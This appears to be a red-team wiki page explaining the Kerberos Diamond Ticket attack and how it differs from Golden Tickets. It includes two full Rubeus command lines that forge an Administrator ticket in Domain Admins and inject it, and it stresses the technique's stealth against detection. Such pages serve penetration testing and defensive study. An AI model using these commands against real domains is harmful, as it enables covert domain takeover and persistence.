

# Diamond Ticket

The Diamond Ticket attack allows red teamers to **manipulate a legitimate Kerberos Ticket Granting Ticket (TGT)** by decrypting it, modifying its contents (e.g., user, groups, SID), and then re-encrypting it using the `krbtgt` account’s NTLM or AES key. The result is a TGT that retains all the metadata and timing of a valid, DC-issued ticket — but with attacker-controlled privileges. This makes it **significantly more stealthy than a** [**Golden Ticket**](golden-ticket.md).

<figure><figcaption><p>The Kerberos authentication process (image taken from <a href="https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel">here</a>).</p></figcaption></figure>

Unlike Golden Tickets, which are forged entirely from scratch, Diamond Tickets start with a valid TGT obtained through a legitimate Kerberos authentication flow. This distinction matters: Golden Tickets skip the initial AS-REQ/AS-REP exchange with the DC, which some EDR solutions and KDC auditing logs can flag as suspicious. Diamond Tickets, on the other hand, leave behind clean traces — the TGT issuance is genuine — making post-exploitation activity **more OPSEC-safe**.

To perform the attack the user's credentials (password or hash) are needed to request the initial TGT as well as the `krbtgt` account’s key to decrypt and re-encrypt the TGT.&#x20;


```powershell
# Using password or hash to get the initial TGT
.\Rubeus.exe diamond /krbkey:<aes256key> /user:student337 /password:<password> /enctype:aes /ticketuser:Administrator /ticketuserid:500 /groups:512 /domain:<domain> /dc:<dc-FQDN> /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```


An alternative to using the user’s credentials directly is leveraging an existing delegated TGT via the `/tgtdeleg` option — useful if a domain user account is already compromised.


```powershell
# Using delegated TGT instead of credentials
.\Rubeus.exe diamond /krbkey:<aes256key> /tgtdeleg /enctype:aes /ticketuser:Administrator /ticketuserid:500 /groups:512 /domain:<domain> /dc:<dc-FQDN> /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

